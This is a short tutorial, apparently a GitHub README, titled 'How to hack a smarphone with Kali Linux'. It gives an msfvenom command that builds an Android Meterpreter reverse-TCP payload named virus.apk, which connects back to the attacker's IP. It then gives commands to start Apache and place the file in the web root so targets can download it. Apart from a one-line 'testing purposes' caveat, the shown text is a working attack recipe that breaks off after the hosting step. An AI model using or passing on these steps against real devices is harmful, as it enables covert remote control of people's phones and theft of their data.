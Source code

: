# How to hack a smarphone with Kali Linux (complete guide)
Kali linux is an OS that is focused on pentesting and ethical hacking. It if totally free and open source. In this guide you will see how you can test to gain acces to a phone with some pentesting tools. ONLY USE THIS FOR TESTING PURPOSES. 

**More info at https://www.kali.org/**

## Creating the maliciuos file
The first thing that we need to make, is to create a malicious file with the correct parameters as for making a connection between our computer and the affected device.
#### `msfvenom -p android/meterpreter/reverse_tcp LHOST=(ENTER YOUR IP ADRESS WITHOUT THE BRACKETS) LPORT=8080  R> virus.apk`

## Two options to proceed
1) Making the virus aviable online.
2) Infecting the virus via cable.


## Option 1)Uploading the file to an apache server.
This method consists in uploading the file to a server that is hosted by the linux machine. You can make shure if it is running by entering this command.
```sudo service apache2 status```
**If you see as an output that it is offline, then turn it on with the following command.**
##### `sudo service apache2 start`
### Copying the files to the apache online server
Now, we need to copy the malicoius file to the apache directory, in order for making it accesible on the internet.
##### `scp virus.apk /var/www/html/`


